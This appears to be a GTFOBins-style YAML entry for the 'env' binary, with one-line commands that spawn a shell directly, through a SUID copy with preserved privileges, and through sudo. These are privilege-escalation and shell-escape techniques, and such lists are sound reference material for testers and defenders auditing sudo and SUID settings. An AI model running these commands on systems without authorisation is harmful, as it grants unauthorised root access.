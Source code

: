 functions:
  shell:
    - code: env /bin/sh
  suid:
    - code: ./env /bin/sh -p
  sudo:
    - code: sudo env /bin/sh
---
